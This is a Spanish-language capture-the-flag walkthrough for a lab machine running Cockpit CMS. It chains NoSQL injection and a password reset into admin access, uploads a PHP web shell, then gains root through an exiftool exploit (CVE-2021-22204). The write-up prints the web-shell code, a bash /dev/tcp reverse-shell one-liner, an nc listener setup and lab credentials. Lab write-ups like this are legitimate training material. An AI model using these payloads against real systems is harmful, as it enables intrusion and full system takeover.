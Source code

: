 ### Tags: ``NoSQL``  `RCE` ``exiftool`` ``mongo``

# Escaneo(*22, 80*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/7c1faa27-2654-4b6a-b92e-a3f9f62adda4)

# Port 80

Las web tiene un **panel de login**, intentamos inyecciones SQL pero nada

![image](https://github.com/user-attachments/assets/bb4c2a29-4f9e-48c0-834a-bd0bd9988ba0)

Haciendo `Ctrl + u` encontramos la versión del CMS 

![image](https://github.com/user-attachments/assets/2a0d6248-3e8d-477e-b6db-81cf6aa950da)

 Buscando en Google --> [Link](https://swarm.ptsecurity.com/rce-cockpit-cms/) encontramos que este CMS cockpit tiene algunas **vulnerabilidades** ``NoSQL`` que se pueden utilizar para volcar la **información de los usuarios**, lo que hacemos es interceptar la petición con `BurpSuite`

 ![image](https://github.com/user-attachments/assets/eca60d91-558f-4947-b6c7-2395ccc75ff0)

Ahora vemos que genera un **token CSFR** para la autenticación y podemos ver los **nombres de usuarios** usando el operador ``$func`` de la biblioteca MongoLite. 
	-Obtuvimos 4 nombres de usuarios 

![image](https://github.com/user-attachments/assets/bbe75d12-f0ef-44b6-8891-9149c4740144)

# Inyección NoSQL en */auth/resetpassword*

Ahora la funcionalidad de restablecimiento de contraseñas se realiza mediante restablecimientos de token en `/auth/resetpassword`:

![image](https://github.com/user-attachments/assets/3ef995dd-7e5d-4828-ad92-0a88bb8fe42e)

###  Compromiso de cuenta de usuario

Ahora puedo volcar las credenciales del usuario cuyo token se ha creado ingresando a `/auth/newpassword` el token:

![image](https://github.com/user-attachments/assets/9a0c494c-2c5c-4273-87c3-f122286d4d3d)

Con estos datos , ``--->`` nosotros vamos a poder cambiar la contraseña de administrador e iniciar sesión en la página de ``CMSpit``.
	1. Utilizar la aplicación con la clave API.
	2. Obtener por fuerza bruta la contraseña de la cuenta a partir del hash.
	3. Cambiar la contraseña de la cuenta utilizando el `/auth/resetpassword` método:

![image](https://github.com/user-attachments/assets/9985b0b9-fb47-45bc-bc79-3713d4fcc756)


# Dentro de la Web

Como vemos ahora estamos dentro de la web como el usuario `admin:test123`

![image](https://github.com/user-attachments/assets/e6e738ef-338f-45cf-81fe-1b4687079ba0)

## RCE

Una vez dentro de la cuenta de **administrador**, lo que podemos hacer es cargar un shell web utilizando el componente **Finder** estándar de Cockpit para conseguir la ejecución remota de código:

![image](https://github.com/user-attachments/assets/dd53676d-d49f-4f87-acbc-791a6b92676a)

Antes nos creamos este ``shell.php`` en la terminal para después subirlo

```php
<?php
        echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

Una ves subido ponemos la `http://<ip>/shell.php?cmd=id`

![image](https://github.com/user-attachments/assets/0c1234fe-de48-4d4a-8c55-0c0ab61d18d6)

Nos mandamos una ReverseShell ---> `http://<ip>/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/<IP>/443 0>%261"`

![image](https://github.com/user-attachments/assets/6db8c1d9-a585-4adb-858a-7b293a970a52)

# Escalada (``stux``)

Con este comando `ss -ntulp`   enumero **puertos internos**  y vemos que en este puerto corre **MONGO**

![image](https://github.com/user-attachments/assets/48b814c7-fd39-43b6-bbed-5af7113e25c4)

Tratamos de conectarnos *sin proporcionar contraseña* y tuvimos éxito, ejecutando `mongo`en la terminal.

![image](https://github.com/user-attachments/assets/25c7c203-7318-4659-929f-dce49a2d1078)

Listamos las bases de datos disponibles con `show dbs`, `use sudoersbak` para acceder, `show collections;` para listar las tabas y por ultimo `db.flag.find();` para leer el contenido de la tabla.

![image](https://github.com/user-attachments/assets/cdf50aef-f631-4412-854d-59c379574357)

Encontramos la contraseña del user `stux:p4ssw0rdhack3d!123`

![image](https://github.com/user-attachments/assets/1648eddc-98df-4e7d-9a16-f8ee37b6c3be)
![image](https://github.com/user-attachments/assets/c265100a-5212-44b3-9e91-a9d19251022b)

# Escalada ``ROOT``

Haciendo `sudo -l` podemos ejecutar **exiftool** como root . ---> (me conecte por ssh como stux porque tuve que reiniciar la máquina)

![image](https://github.com/user-attachments/assets/f8dcaee5-25b1-4c3d-a121-dac6fd1ee980)

Buscando en Google de como escalar a root encontramos este [EnlaceExploit](https://github.com/convisolabs/CVE-2021-22204-exiftool), básicamente lo que tenemos que hacer es:

```ruby
git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
cd CVE-2021-22204-exiftool
```

Una ves clonado y dentro del repo tenes que instalar esto: ``-->`` (si te llega a dar **error** como ami, hace un  `sudo apt-get update` y lo instalas)

```ruby
sudo apt install djvulibre-bin exiftool
```

Ahora lo que haces es en la terminal, **te abrís el archivito** llamado `exploit.py` y editas el script poniendo tu **IP** y el **puerto** de escucha que quieras, una ves hecho eso lo ejecutas en la terminal así:

```bash
python3 exploit.py
```

Automáticamente se te crea una imagen llamada `image.jpg`, lo que haces es transferirte esa imagen a la máquina victima de esta forma:

```bash
#máquina atacante
python3 -m http.server

#máquina víctima
wget http://<IP>/image.jpg
```

Una ves que se transfirió la imagen, abrís otra terminal para ponerte en escucha con `netcat` por el puerto especificado, ejecutas con sudo el binario:

```bash
#máquina atacnte 
nc -nlvp <puerto_especificado>

#máquina víctima
sudo /usr/local/bin/exiftool image.jpg
```

![image](https://github.com/user-attachments/assets/b7948fc2-dec3-4afe-bc7c-93767f79f074)

Y listo somos !**ROOT**!

![image](https://github.com/user-attachments/assets/2f2f323c-2c12-40e9-b24f-643865b8fe27)
















